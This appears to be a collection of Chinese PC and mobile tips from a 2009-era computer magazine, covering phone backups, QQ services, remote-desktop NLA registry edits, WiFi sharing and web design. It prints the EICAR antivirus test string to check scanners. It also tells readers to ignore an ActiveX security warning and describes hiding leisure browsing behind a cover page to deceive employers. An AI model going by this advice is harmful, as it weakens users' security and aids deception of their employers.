第6步：成功合并后会在上述指定目录生存一个新的MQ.JAR和MQ.jad文件，现在把这两个文件上传到手机上安装即可。在手机上运行这个捆绑的软件后，首先会出现一个程序选择启动菜单，选择飞信后，按手机键盘右软键，在打开的菜单选择“4运行”，成功登录飞信后再按右软键“最小化”，现在可以返回程序选择界面继续启动QQ（见图3）。这样就同时启动这两个软件了，软件可以通过最小化来回切换。







> 手机参数设置根据被合并的JAR软件选择，比如原来是MIDP-1.0软件，则要在此选择MIDP-1.0，否则合并后的软件会无法运行。此外，非智能手机内存普遍较小，合并好的软件最好不要超过1MB，否则也是无法在手机上运行的。

> 由于非智能手机大多没有数据线，我们可以在电脑上安装飞信，然后通过飞信的“给自己手机发送文件”，把上述JAR软件通过飞信传输到自己手机上安装，或者直接上传到自己QQ网络硬盘，然后通过手机上网到网络硬盘处下载安装即可。

# 免费获取QQ农场大礼包

种田、锄草、偷东西……QQ农场无疑是目前最流行的网上娱乐，我作为这些“农户”中的一员，耕作过程中发现了两个可以免费获取QQ农场装饰的途径。

## 完成任务领礼包

如果你注册了QQ校友录，可以完成QQ校友录上的一些任务。登录自己的QQ，打开http://xiaoyou.qq.com/index.php?mod=mission页面（见图），根据提示完成页面上的任务，单击“领取礼包”就能获取9个开心农场的西瓜种子，1套开心农场的绝版装扮，社区尊贵四叶草图标。

## 拍拍充话费送礼

腾讯拍拍经常会开展一些活动，比如：通过拍拍给自己的手机充话费就能获取一份农场礼包。登录自己的QQ，打开http://www.paipai.com/chong/charge_index_event.shtml页面，单击“充值”按钮根据提示给自己的手机充话费，然后在下方输入自己的“财付通订单号”，最后单击“申请礼包”即可。当然，在你有QQ校友录或使用拍拍的时候，可以顺手获取以上礼包。否则，没必要特意为了这些礼包而去使用以上业务，那就得不偿失了。

# 找个人说说话 家常话

在你心情特别郁闷的时候，想不想找一个完完全全的陌生人随便聊聊？那就来“路过的”网站试试吧。打开路过的网站首页http://luguode.com，点击“找路人甲聊天”按钮，就可以等着与路人甲（对别人来说，你也是路人甲）邂逅了。系统会自动帮你与其他的路过者连线，连接上之后会有提示，直接在输入框中输入文字按回车键发送，就可以开聊了。路人甲们还能根据自己的意愿选择是否显示自己或别人的距离和位置。点击右上方的三角箭头可以打开选项，如果设置只显示自己距离的话，那么将看到“路过的系统消息：路人甲正在直线距离你大概915公里的地方路过”之类的提示。这个网站刚刚起步，据介绍还会增加更多新功能，比如像MSN那样显示对方的输入状态。如果想找一个老外路人甲练英语，怎么办？那可以上Omegle网站（http://omegle.com/），点击Start a chat（启动聊天）就可以与老外开聊了。如果与某个陌生人断线了，可点击Start a new conversation（开始新会话）找一个新的陌生人聊天。Omegle的使用方法与路过的基 本一样，不过就是英文界面。

# 存储有道，手机和网络的亲密接触

手机和互联网的联系越来越密切。一方面我们要从网上获取各种各样的资源，另一方面我们可以把手机上的重要资料（如通信录等）上传到网络保存。下面，让我们一起来让手机和网络更紧密地联系在一起吧。

## 掌中资源网上存——使用网络备份重要手机资料

由于网络无地域性，如果我们把手机上的重要资料上传到网络备份，这样不管走到哪里，只要有一台联网电脑，我们就可以轻松读取上传的资料，或者把资料回传到手机上。

### 1.品牌用户——利用手机自带软件

对于使用诺基亚、摩托罗拉等品牌机型，或者使用微软等智能操作系统的手机用户，他们大多有随机自带同步软件，只要利用这些软件即可轻松实现资料的网络备份。这里以诺基亚PC套件为例介绍具体操作。

第1步：登录http://www.nokia.com.cn/，根据自己的手机下载合适版本的PC套件并安装，然后使用数据线将手机和电脑连接，系统会自动安装所需的驱动。如果原来电脑上已经安装过旧版本的PC套件导致无法安装新版本的软件，此时可以到诺基亚主页下载“诺基亚PC套件清除器”清理旧版本的文件。
第2步：成功连接手机并被电脑识别后我们就可以开始备份手机重要资料了。PC套件支持备份整个手机资料，或者有选择地备份联系人、短信等内容。单击程序窗口第一个“备份图标”即可开始备份（见图1）。在弹出的备份向导中选择备份项目，剩下的操作按向导提示一步步选择即可，最终会得到一个扩展名为.nbu的备份文件。



第3步：在网上申请一个网络硬盘，然后把制作好的.nbu备份文件上传到此保存，以后如果要恢复备份，只要将上传的备份下载到电脑上，同上启动备份向导后选择“将所需手机内容从备份文件恢复到手机”即可恢复。
如果备份的只是手机联系人等资料，我们还可以将这些资料快速上传到自己的QQ网络硬盘。单击程序界面“联系人”按钮，接着在打开的联系人窗口按下Ctrl+A键全选，然后选择“文件→导出”保存为lxr.csv。在资源管理器右击lxr.csv选择“上传到QQ网络硬盘”即可。以后可以随时从QQ网络硬盘上下载回来导入到手机中。

> 网络大补帖：
> ★摩托罗拉Motorola Phone Tools手机管理软件使用：http://bbs.imobile.com.cn/thread-tid-1562315.html
> ★索爱PC套件下载：http://www.sonyericsson.com/cws/support/softwaredownloads?lc=zh&cc=cn
> ★微软ActiveSync使用介绍（Vista以及以上系统已经内置该软件）：http://guide.it168.com/files/11403/1140300500000.asp

### 2.普通用户——利用第三方手机软件

对于普通手机用户来说可没有那么完善的PC套件，不过还是有许多网友制作出各种通用手机管理软件为我们服务。比如“91手机助手”（下载地址：http://soft.sj.91.com/，打开后按自己机型选择下载）就支持很多品牌的手机，而且还支持直接将手机资料备份到网络。

第1步：登录https://reg.91.com/NDUser_Register.aspx注册为91用户，然后连上手机并运行软件后，91手机助手会自动识别手机。在程序界面切换到“系统工具”，单击“备份还原”，打开备份还原窗口，然后选择“网络备份”，最后在打开的窗口选择需要网络备份的项目并设置密码（见图2）。
第2步：完成上述设置后单击“备份”，程序开始导出数据并上传到网络保存（其间需要使用91用户登录）。备份完成后会出现一个备份列表，在此单击备份项目还可以直接进行查看。如果以后要将网络备份恢复到手机上，同上打开备份项目后，单击“还原”，接着在打开的向导中按提示导入备份数据即可还原。除此之外，我们还可以利用软件对手机进行其他管理操作，比如进行注册表编辑、截图、程序安装/卸载、主题下载等。



### 3.网络通信录——打造永远不丢的电话本

利用电脑备份手机资料，一般要有相应的软件和数据线。其实很多朋友的手机都不具备这些条件。此类手机用户可以借助“火种”提供在线通信录备份服务。这里以多普达S1手机操作为例。

第1步：在电脑上登录http://www.hozom.com并注册为火种用户，成功登录后进入自己的火种通信录，单击“添加联系人”，按提示添加自己需要备份的联系人资料（格式：姓名 电话）。由于是在电脑上操作，我们可以很方便地建立自己的通信录。
第2步：使用手机登录m.hozom.com下载适合自己手机使用的客户端软件，启动软件后单击“菜单→登录”，按提示进行登录，成功登录后单击“菜单→同步电话本”，这样我们前面在火种网站建立的通信录就会自动导入到手机火种上。现在如果要打电话给通信录中的好友，单击其中的好友名称，在打开的窗口中，如果点击好友名称程序会自动开启手机拨号。单击后面的白色方块图标则可以开启短信新建菜单发送短信（见图3）。



第3步：我们也可以在手机火种上新建（或编辑）联系人，程序会自动启动手机新建联系人对话窗口，完成联系人添加（或修改）后，单击“菜单→同步电话本”，程序会自动将修改过的通信录和火种网站同步（当然我们也可以用电脑直接在火种网站登录新建联系人，然后同步到手机上）。在手机火种上新建的联系人会自动导入到手机上原来通信录中，由于这个通信录数据全部在火种网站，因此不管我们走到哪里，随时都可以在手机和网站之间同步联系人，这样再也不怕自己的通信录丢失了。

注意：
号码管家费用由功能费（3元/月）+通信费（手机同步和WAP方式使用免收GPRS流量费，短信同步0.1元/条，编辑kt到10658114开通业务）组成。

### 4.运营商和手机厂商的工具

通信录作为手机用户最重要的资料，一些运营商和手机厂商也提供相应的工具备份和同步通信录。比如移动用户可以使用号码管家服务，对于定制的移动心机用户，只要依次进入“中国移动→中国移动服务→号码管家→进入→号簿更新”，即可将手机通信录和移动网站号码簿同步。我们可以在电脑上登录http://mypim.monternet.com/web/index.jsp#，编辑自己的通信录并同步到手机上。



诺基亚也提供网络备份、同步服务，这里以N70手机操作为例，在电脑上打开https://account.nokia.com/acct/register?serviceId=Ovicom&lid=regi sterherohtnll注册为ovi.com用户并登录。注册期间会在手机上收到一条短信，打开短信中的网址登录验证手机。在手机上打开“工具→同步处理”，在同步处理项目中选择“Synchronise”，联网方式使用cmnet，点击“开始同步”，这样手机上所有电话本、日程表、记事本等等信息将上传到ovi网站上。我们也可以使用电脑登录http://www.ovi.com/services/contacts?lid=contactsherotxtli，在线编辑自己上传的资料，这些资料会同步更新到手机上（见图4）。

> 网络大补帖：
> ★号码管家更多机型的操作实例请参考http://mypim.monternet.com/web/index.jsp的介绍。

## 网络资源掌中用——从网络下载适合手机资源

前面介绍了如何利用网络保存手机数据，除了上传之外，我们还要经常从网络下载合适的资源到手机上使用。比如很多手机都支持TXT格式电子书，但是有些手机只支持JAR格式电子书。我们可以借助“超级书狂抓”（下载地址：http://www.newhua.com/soft/982.htm）把网上书籍转换为TXT格式。比如要下载新浪读书频道的《红海洋》到手机上阅读，启动超级书狂抓后，单击“下载”，然后在弹出的窗口输入该书第一页在线地址http://vip.book.sina.com.cn/book/chapter_102643_6681.html，返回程序窗口单击“开始”，程序会自动下载该书的所有章节为TXT格式，下载同时还可以在左侧窗格预览到下载结果（见图5）。抓取的书籍默认保存在“C:\My Documents\我抓的书”，抓取完成后使用数据线将下载的书籍传输到手机上即可阅读。其他手机常见资源可以参考下面的链接获取。



> 网络大补帖：
> ★如果你的手机只支持JAR格式电子书，可以登录http://jar.youyiyi.com/，把TXT转换为JAR电子书。
> ★手机视频在线转换，可以登录http://online.movavi.com/，将常见的FLV在线转换为3GP视频。
> ★使用http://media-convert.com/zh/提供的音乐在线转换服务制作各种格式的手机铃声。
> ★利用http://gickr.com/提供的GIF制作服务生成手机动态壁纸。
> ★利用http://www9.ownskin.com/index在线制作手机主题。
> ★对于没有数据线的用户，可以利用UCWEB提供的网络硬盘（手机、电脑都可以访问）作为两者共享通道。

（文/俞木发）

# 远程桌面，先亮身份

用过Windows XP下远程桌面的朋友们知道，在输入IP连接后马上就能看到Windows的登录界面。但是在Vista下同样使用远程桌面，输入IP连接之前就会要求身份验证，这就是所谓的网络级别身份验证（Network Level Authentication，简称NLA），它对远程桌面连接的安全性能有不少提高。

```
在[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa]下，将Security Packages内容修改为：
kerberos
msv1_0
schannel
wdigest
tspkg
在[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders]下，修改SecurityProviders项的值，添加credssp.dll。
```

修改后关闭注册表，运行“gpupdate /force /wait:0”（不含外侧引号）更新即可。如果嫌手工修改麻烦，也可以从http://work.newhua.com/cfan/200922/XP_NLA.rar下载注册表文件，解压后双击导入注册表，重新启动Windows XP（或执行前面的注册表更新命令），NLA就可以生效了。注意：在以上修改注册表文件之前，先对系统注册表做好备份，万一因修改注册表引起系统故障，也好恢复注册表。

小知识：关于使用NLA的优点，微软相关文档中有如下说明：
1. 最初只需要少量的远程计算机资源，对用户进行身份验证之前，远程计算机仅使用有限的资源，而不像早期版本启动整个远程桌面连接。
2. 可以通过降低拒绝服务攻击（尝试限制或阻止访问Internet）的风险提供更高的安全保障。
3. 使用远程计算机身份验证可以防止我们连接到因恶意目的而安装的远程计算机。

# 浏览器里的驱动升级行动

驱动精灵可以备份、升级、还原驱动程序，当我们重装系统的时候，这款工具显得非常有用。现在驱动精灵推出在线版，就更方便多了，不用安装软件，在线也可以检测和升级驱动。

第一步：在IE浏览器中打开驱动精灵在线版页面（http://up.mydrivers.com/），首先需安装驱动精灵在线版ActiveX控件，右键单击窗口上方信息栏，然后在弹出快捷菜单中选择“安装ActiveX控件”命令。
第二步：这时会出现“安全警告”窗口，无需理会，直接点击“安装”按钮。安装完成后，刷新浏览器，此时便可对本地计算机进行在线驱动程序检测了。点击一下“开始检测”按钮。
第三步：稍等片刻，检测便顺利完成。这个时候可供更新的驱动程序名称会逐一显示出来，自己需要下载哪一个，直接单击最右侧的“下载”按钮便大功告成了。
注意：驱动精灵在线版目前仅支持IE6、IE7、IE8系列浏览器。

# 你的杀毒软件被暗杀了吗？

现在不少杀毒软件都有实时监控功能，可是它们真的在实时监控吗？可试着用EICAR病毒测试代码检查看看（一行）：

```
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
```

## 测试方法：

新建一个文本文件，输入以上测试代码。保存文件时，有些杀毒软件不等人工启动扫描，就立即判定出有病毒存在（见图1）。如果没有反应，可以点击此文本文件，再选用杀毒软件扫描，如果杀毒软件在岗，会自动报毒并对该文本文件采取相应的措施。这些说明，你的杀毒软件没偷懒，否则就表示杀毒软件可能已被破坏，或者处于不正常的工作状态了。



| 扫描引擎 | 病毒名称 | 扫描时间 | 结果 |
| --- | --- | --- | --- |
| Avast! | EICAR Test-File | 2009-10-21 12:02:24 | 检测到 |
| AVG | EICARTestFile | 2009-10-21 12:02:25 | 检测到 |
| ... | ... | ... | ... |

# DIY自己的互联网电视机

如今，各家大家电厂商相继推出互联网电视，这种电视机不但能够接收传统电视内容，还能够上网搜索、下载、播放视频，很受大家喜爱。不过，互联网电视机价格不菲，而且大部分人家中已购有新电视机，暂时没必要更换。其实，我们只要发扬DIY精神，简简单单就可以将普通电视机打造成互联网电视机。

## 硬件其实便宜又简单

首先要准备相应的硬件——线缆。现在最好的连接线缆是HDMI的，其次是DVI，最次的是VGA。这些线缆电子商场随处可见，VGA的线缆也就10块钱左右。几乎所有电视机都能支持VGA，不过有条件的，我还是强烈推荐前两者，尤其是HDMI，它一条线就能同时支持数码视频和数码音频传输，其最高版本为1.4，流行的版本为1.3。

## 让电脑与电视互通有无

接下来用准备好的线缆将电脑（笔记本更方便）的显卡与电视互联，声卡的输出和家庭音响连接。注意不要带电插拔，另外HDMI和DVI接口设备需要在冷启动下才能检测到。然后打开电视机，用遥控器选择信号源输入，要选择HDMI或AV模式。具体操作请以附带的说明书为准。

## 电视机上看互联网视频

接下来要用到相应的软件，我选择的是迅雷看看播放器，可以从http://dl.xunlei.com/xmp.html处下载安装。它除了能播放本机上的视频外，还可以直接播放网络上的视频。单击菜单“文件→打开URL”，输入网络视频的URL地址即可。如果单击菜单“文件→打开BT种子文件”，打开相应的种子文件，还可以边下载边看BT电影。如果种子文件中包含有多个视频文件，它会自动将其中的视频添加到播放列表中并顺序播放。

## 网络大补贴：

★PPLive：一个开发较早的P2P网络视频播放软件，界面简洁、节目丰富，播放速度也很流畅。它在播放时还提供了专用的加速器，可以提升播放效果。它最大的特色就是它的高清视频专区，网站可以播出高达2000部的高清视频影片。
网址：http://www.pplive.com/
★PPStream：它提供的电视和视频节目不但内容丰富全面，画质也很不错。它现在采用的是“网络电视+影音播放器”的双重模式，时效性非常高，可以及时欣赏到新影片。它同样也提供了专用的加速器，以改进播放效果。
网址：http://www.ppstream.com/
★QQLive：它是腾讯的产品，凭借其数量庞大的QQ用户，迅速在网络上蹿红。与其他网络电视相比，它最大的不同在于跟QQ进行了紧密结合，增加了用户的互动性。因此使用QQLive需要拥有一个QQ账号，打开软件时需要先用QQ号码登录软件。它提供的节目内容很丰富，其中在左下角还可以显示当前在线收看QQLive的用户数。
网址：http://tv.qq.com/
★风行：风行原是一个BT下载工具，不过现在它集BT影视搜索、欣赏、管理于一身，最大的特色是边下边播、边下边看。
网址：http://www.funshion.com/

# 下班了，工作拿回家做吧

办公白领经常要编辑各种文档，如果文档处理了一半到了下班时间，怎么办？一般都会用闪盘拷贝文件带回家再继续做（也可以发邮件），不过这样挺麻烦的。其实借助Nocs，可以将文档随时同步到谷歌文档中（Google Docs），不论在何处都可以继续编辑。

首先从 http://code.google.com/p/nocs/ 下载并安装Nocs，运行Nocs后会显示登录窗口，输入自己的谷歌账号和密码后单击Validate（确认）登录，最后单击OK即可打开软件主界面了。注意：在登录对话框中勾选 Remember my password（记住密码）选项，下次运行Nocs就可以自动登录了。

警告：机密文件请勿使用Nocs，毕竟Nocs软件本身是可以读取文档内容的，并能在网络间传送。

- ★ Nocs基于 .Net 平台开发，因此使用Nocs，系统中需安装 .Net Framework。一般人的电脑中已安装有此组件，没有此组件的，可从 http://www.microsoft.com/downloads/details.aspx?FamilyID=0856eacb-4362-4b0d-8edd-ab15c5e04f5&displayLang=zh-cn 下载。

Nocs长得像Windows记事本，操作很简单。输入并编辑文档，然后单击菜单“File→Save”（文件→保存，快捷键为Ctrl+S）保存，在弹出的保存对话框中输入文档的名字，单击OK即可将内容自动同步到谷歌文档中了。点击“File→New”（文件→新建）可以建立更多新的文档。

回到家中，想要继续在办公室的工作，同样打开Nocs，执行“File→Browse Files”（文件→浏览文件）命令，在打开的浏览对话框中将列出所有文档，选中某一文档双击即可打开继续编辑。

编辑时，如果觉得每段文字单行显示看起来不方便，可在选项菜单中，选择Word Wrap（自动换行）。如果怕忘记保存，还可以执行“Options→Preferences”（选项→参数）命令，在打开的对话框中设置自动保存时间。同样在这里，还可以设置数据同步时的密码以保护数据。

# 软件扩展

Nocs的同步功能，还可以当作网络备忘录来使用，重要事务随时同步到谷歌文档中，需要时，可随时随地查阅，操作方法同上。如果是在其他没有安装Nocs的电脑上，可通过Web页面 http://docs.google.com/ 登录谷歌文档，将看到名为“gss_notepad”的电子表格项目，其中便是通过Nocs保存的记录内容了。不过采取网页方式浏览时只能通过标题内容来查阅。

与一般备忘录软件相比，它不限于本机使用，随处能上网的地方都可以用。与网页备忘录工具相比，它则不需要打开浏览器登录网页。

# 小提示：

- ★ QQ2009中也提供有网络备忘录功能，在QQ面板上点击“主菜单→工具→网络备忘录”，记录下备忘内容即可。新版QQ2009 SP4中还为备忘录添加了排序功能，更加方便查阅。如果点击“启用备忘录漫游”，在更换电脑后也可以随时查看，不过这只有会员才可以享用，另外不少单位禁用QQ，这也让QQ备忘录大打折扣。
- ★ 许多Web邮箱也带备忘录功能，以163邮箱为例，登录后在左侧可以看到“记事本”项，点击之后添加记录即可。不过网页邮箱的形式还是没有Nocs方便。

（文/越野苍狼）

# Win7让WiFi来得更猛烈些吧

现在带WiFi功能的设备越来越多，比如我们常用的手机等。平时手机与电脑相连，一般会使用数据线，非常不方便。其实如果你使用的是带无线网卡的笔记本电脑，并且安装了Windows 7系统，那么就可以快速把你的本本变成一个无线路由器，让WiFi设备之间的连接易如反掌。



第一步：打开 http://connectify.me/，点击右侧那个大大的“Beta Test now”按钮，输入你的E-Mail注册一下，就可以得到一个 ConnectifyInstall.exe 的可执行文件并安装。

第二步：安装完成后，系统托盘里将出现Connectify的图标，这时选择一个想要共享的网络连接并为它设定一个名字，设置PassPhrase（密码）后，点击“Service Down”按钮，现在在你的所有WiFi设备上就可以看到相应的网络了。输入上面设定的PassPhrase连接，这时你的电脑就变成一部基于软件的无线路由器了，不需要再添加其他硬件，WiFi设备即可通过它互联互通，传输数据就方便多啦。

# 小提示：

目前Connectify只支持Windows 7和Windows Server 2008 r2。

（文/侯忠）

# PPS电影下载看

用PPS影音（PPStream）在线看电影有时会因为网络原因出现迟缓、断流等尴尬的情况。于是有些人会考虑将大片下载回来后再慢慢欣赏。PPS影音本身就提供下载功能，而且还能边下载边看。

首先要下载PPS最新版（http://www.ppstream.com/），因为此功能从2.6.86.8971之后才开始支持。安装后运行PPS影音，在左侧的节目列表中找到需要下载的节目，右击选择“下载到本地”，在弹出的下载视频对话框中，设置好保存位置，确定后即可下载了。

如果觉得下载的过程比较枯燥，那么可以从右键菜单中选择“边下边看”，同样指定好下载路径，完成缓冲后，PPS影音会自动切换到“本地”选项卡，很快就可以在下载的同时欣赏视频的内容了，很有意思吧。

（江苏/王志军）

# 躺床上冲浪 手机连到宽带上

我用的是水货N95手机，平时爱躺在床上用手机浏览网络，但手机老牛拉车的网速以及惊人的上网流量令人头痛。如果让手机通过家里的ADSL联网，就可以解决问题了。不过N95的WiFi功能虽好，我却没有无线路由器。好在家里还有一台笔记本电脑，于是我想：让笔记本连接ADSL宽带，再通过其内置的无线网卡为手机提供WiFi信号，这样手机不就能够享受有线宽带的网络了吗？

第一步：在笔记本电脑上，首先连接ADSL，成功登录后，右击“宽带连接”点击“属性”，选择“高级”选项卡，选中“允许其他网络用户通过此计算机的Internet连接来连接”项，再在下面选择“无线网络连接”，点击“确定”（见图1）。这样我们就把宽带连接的资源共享给了无线网卡，设置好共享网络后，电脑会自动设置无线网卡地址。



第二步：在系统“控制面板”中双击打开“网络连接”，右击无线网卡图标，选择“属性”，在打开的无线网卡属性框中切换到“无线网络配置”选项卡，再单击“高级”按钮（见图2），在弹出的对话框中选中最后一项“仅计算机到计算机（特定）”，点击“关闭”返回。



单击“添加”，首先确定一个网络名，也就是接入点的名称，这个可以随便填写，数据加密选择“WEP”或者可以不加密，然后选中“即使此网络未广播，也进行连接”，最后单击“确定”按钮。这样我们就把无线网卡作为发射端向其他支持WiFi的设备提供信号了。

第三步：接下来设置手机。正常情况下，电脑端设置完毕，用手机搜索WLAN应该就能连接成功并上网了。如果连接不上或是提示“无网关回应”，那么就得手动修改无线接入点的IP和网关，以及子网掩码。由于电脑的无线网卡默认分配的IP为192.168.0.1，那么只要在手机上将WLAN的IP设为192.168.0.2，子网掩码设为255.255.255.0，默认网关为192.168.0.1（这个网关其实就是之前在电脑上新建无线网络连接点时自定义的那个IP地址），最后将DNS地址也填为192.168.0.1，确定后退出即可。

我的N95只要启动WLAN，就会自动搜索到笔记本的无线网络，选取该网络（如果你在电脑上为无线网络加过密，会提示你输入密码）进入后，只要选取“开始浏览网络”，手机就可以借助笔记本的有线宽带高速无阻地上网冲浪了。

# 网络大补贴：

水货诺基亚N系列的手机，大部分带有WiFi功能，而正规行货，Nokia只有少数几款符合WAPI安全标准的手机，如Nokia 5320/5530、N97 Mini等，带有WiFi功能。其他如摩托罗拉A3100、魅族M8 SE、多普达A3288等也支持WAPI/WiFi。所以在购买手机前，要向销售商仔细询问清楚。下面再给出网上其他一些网友使用手机上网的经验之谈，供大家参考。

- ★ 手机通过电信ADSL进行WiFi上网攻略 网址：http://tinyurl.com/yktut6p
- ★ 智能手机免无线路由借ADSL宽带上 网址：http://tinyurl.com/ylant3l

（文/谢剑南）

# 酷酷酷，不一定要技术

要想吸引MM的注意，就需要一些非常的手段，比如发一些酷酷的动态QQ表情。不过，网上流行的QQ表情，你能用别人也能用，这样就显不出你的个性了。想要制作自己特有的表情，可又苦于没有技术，怎么办？PhotoFunia可以帮你轻松实现。

打开PhotoFunia的中文主页 (http://cn.photofunia.com/)，可以看到许多效果图片，有静态的也有动态的，选择自己喜欢的图片，比如第3行第1幅就是一个动态翻相册的效果，点击进入。第1项是静态效果，需要上传2张自己的照片，第2项是动态效果，需要上传4张照片，点击“浏览”按钮选择上传本机上的图片即可，选择完毕，点击Next (下一步) 按钮，就能看到生成的效果图了，点击“保存为头像”可下载得到一个动态GIF图片，因为相册中的图片已替换成你自己的照片，自然是个性鲜明了，用它作为QQ、MSN、论坛上的头像，肯定会非常之酷。

选择其他项，则可以得到高质量的JPG静态图片，如果点击“出版”的话，还可以得到此动态图片的外链地址(见图)，能很方便地应用到自己的网站、博客、论坛上。

# 没技术也能玩

网上类似的网站还有不少，下面再提供一些给大家参考。

- ★图片仓库：这里提供了多个工具，如大头贴DIY、给图片加字、动画生成工具、网店分类图片制作等。
  网址：http://pic.sdodo.com/
- ★照片边框秀：这个网站可以为上传的图片或者在线图片，添加各式各样的边框，并且能方便地旋转图片角度以及缩放图片，效果不错。
  网址：http://www.frameshow.com/index.php
- ★免费在线图片编辑：对上传的图片进行各种编辑，调整颜色亮度、裁剪大小、黑白转换、添加特效等，一点也不逊色于本地安装的图片编辑软件。
  网址：http://www.webpictool.com/



(文/一页)

# 一劳永逸，竖排网页显古韵

古人使用竖排文字，如果你的网站需要表现出古朴典雅的风格，不妨穿插一些竖排的文字，将别有一番韵味。如图1所示，是网页中竖排文字的效果，但是在网页排版软件中，是无法直接实现此效果的，一般要借助CSS样式表来实现。

这里以专业网页排版软件Dreamweaver为例来演示（本例使用的是CS3版）。启动Dreamweaver后，单击“文件→新建”，选择空白页的HTML页面类型创建文件。



点击展开右侧CSS面板（快捷键为Shift+F11），点击下方带“+”号的新建CSS规则按钮，在打开的对话框中，选择类型为“类”，并设置CSS类名称（本例为：supai），如果希望竖排效果以后随时能调用，可将“定义在”设置为“新建样式表文件”，确定后，将弹出对话框，要求设置样式表文件的保存位置。如果仅想在当前网页使用，选择“仅对该文档”即可。

设置完毕点击“确定”，将打开CSS规则定义窗口，在此只需要鼠标简单点击，即可设置字体、字号、风格、颜色、对齐方式等。设置完毕，点击“确定”返回Dreamweaver。此时CSS样式面板如图2所示，点击“添加属性”，手工添加writing-mode项，并将其值设置为tb-rl。



好了，完成以上设置后，就可以随时应用竖排文字效果了。在Dreamweaver中，切换到“布局”选项卡下，单击“插入Div标签”按钮，在弹出的对话框中，将“类”设置为supai（即上面制作的CSS样式表），确定后，在显示的虚线框中输入要竖排的文字，保存网页就可以了。按F12键，还可以马上在浏览器中预览效果，不满意的话好及时修改。

# 小提示：

> ★writing-mode用来设置书写方向，它的值为tb-rl时，表示文字要竖排，从上往下，从右向左；值为lr-tb时，则表示从左向右，从上往下。
> ★网上共有不少竖排转换工具。比如打开http://www.cshbl.com/gushu.html，在上方输入相应文字，再在下面设置每页行数及每行字数，以及边框线的类型等，然后单击“转换”，即可生成如图3所示效果的竖排文字来，看起来还不错吧。


(文/流言)

# QQ秘密“基地”的那些事儿

对中国网民来说，QQ是必备的上网工具，几乎人手一个（甚至多个）。不过QQ也不过就是一个客户端软件，发发消息，看看视频。真正让QQ多彩多姿的，则是它背后的许多支撑服务，这些服务往往以网站的形式出现。下面就让我们来清查一下QQ背后的一些秘密。

## 英文QQ

不少人都嫌QQ越来越“胖”，而用第三方精简版QQ又不放心。实际上，腾讯自身就有官方的精简版，那就是英文QQ，文件比较小，功能也精简多了。

网址：http://www.imqq.com

## 快速注册QQ号码

腾讯QQ号码的申请越来越麻烦，不过腾讯对国际友人还是比较照顾的，利用这一特点可以免费快速申请到QQ号码。

网址：http://signup.qq.com

## WebQQ网页聊

单位禁止安装QQ软件？没关系，通过QQ的网页版，一样能聊得热火朝天。

网址：http://web.qq.com

## QQ好友恢复

自己误删，或者QQ被盗好友被删，通过下面的网址还是有机会找回来的。

网址：http://huifu.qq.com

## 手机QQ

现在越来越多的人喜欢用手机上网，那就下载一个手机版的QQ使用吧。

网址：http://mobile.qq.com

## QQ号码专区

买车的挑车号，申请QQ的也想找一个QQ靓号，可以到QQ号码商城挑一个，不过都是需要费用的哦。

网址：http://haoma.qq.com/

网址有一定的对应关系，通过转换即可下载到略图背后的资源了。注意，因为是非官方数据，以下的方法何时会失效，谁也说不好。

- ★进入QQ空间商城的“皮肤”选项卡下，右击喜欢的皮肤略图，选择“属性”，将得到类似“http://qzonestyle.gtimg.cn/qzone/space_item/pre/2/47410_1.gif”的网址，试着将pre改成orig，1.gif改成1.jpg，即可得到类似“http://.../orig/2/47410_top.jpg”的地址，即这款皮肤的真正图片了。
- ★QQ商城中，在对应项目上，将链接后面类似“pre/14/47214_1.gif”的部分改成“orig/14/47214.ani”，可得到相应的光标资源文件。将类似“pre/3/47395_1.gif”的网址改成“orig/3/47395.swf”，可得到相应的播放器Flash动画文件。将类似“pre/6/47334_1.gif”的网址改成“orig/6/47334.png”，可得到标题栏透明背景的图片。将“动画”的略图链接后面，如“pre/3/47331_1.gif”，改成“orig/3/47331.swf”，即此动画的真正网址。

(文/一页)

# 办公室隐身术，明目张胆看美眉

网上有一幅很流行的漫画，说的是某员工，因为在开心农场偷了老板的菜而被开除。事情可能有点夸大，不过现实中大多数单位是禁止员工玩网游的，甚至连QQ、MSN都不让聊。好吧，既然老板们不乐意，那我们就偷偷玩一会，别让他们发现。

## 偷窥农场，菜熟了要及时偷

Vanishd提供的“复合式网页”功能，可以透过上面的网页偷看到下层网页的内容。这样，我们就可以打开一个工作页面（如公司首页）作掩护，然后偷偷监控下面的QQ农场页面，一旦“菜”熟了，也好及时去“偷”。

首先在IE中打开http://www.vanishd.com/，点击右上角Sign Up Now（立即注册）链接，在新页面右侧，填写自己的E-mail作为账户，再设置Vanishd密码（Password），连续点击Continue（继续）完成注册。已经注册过账户的，则在上面页面的左侧直接登录即可。

登录后，单击Launch Vanishd按钮启动服务，此时页面左上角显示VANISHD按钮，点击展开它，在Hidden Page（隐藏页面）中输入要玩的网页地址（比如你QQ空间的网址），按回车键打开。在Cover Page（封面页面）中输入工作网页地址（如电脑爱好者首页http://www.cfan.com.cn），也按回车键打开。这时显示的内容完全是爱好者的页面。

想要查看QQ农场的情况时，可再次点击左上角VANISHD按钮，将出现一个随光标移动的透明方块，如同透视镜一样显示出下层页面。滚动滚轮，可以任意调整透视镜的大小，单击鼠标可进入下层页面进行操作。如果发现老板来了，只要将光标移出浏览器窗口，透视镜自动消失，一切如常了。
同样方法，在公司看个小说、看个美眉，也很难被发现。

## 披着 Office 外衣的浏览器

如今浏览器的界面越来越张扬，其实我们可以将浏览器换成低调一些的界面，比如Office风格的界面，这样也会起到一定的“隐身”作用，以免引人注意。

使用Firefox浏览器的朋友，可以通过更换主题的方法来实现。首先从网上搜索下载相应的主题（本例所用到的Office主题，可从http://work.newhua.com/cfan/200923/firefoxtheme.rar处下载。其中还包括苹果、谷歌、Vista等其他主题风格）。
启动Firefox，单击“工具→附加组件→主题”，然后将下载得到的jar主题文件拖放到此窗口中，将弹出安装对话框，点击“立即安装”，完成后重启Firefox，选中相应项再点击“使用主题”即可完成大变身了。注意：以上插件在Firefox 3.0下测试成功，新版Firefox如显示兼容问题，可重新搜索新主题。

> 小提示：
> ★在Vanishd工具栏中，点击Word、Powerpoint或者Excel图标，可以将这些Office软件的界面设置为上层页面，也能起到一定的迷惑作用。
> ★在Firefox中打开https://addons.mozilla.org/en-US/firefox/addon/10900，安装Personas换肤插件重启Firefox，将会自动打开该插件的主页。点击“Browse the Gallery”（浏览图集），可以安装到各种各样的皮肤。
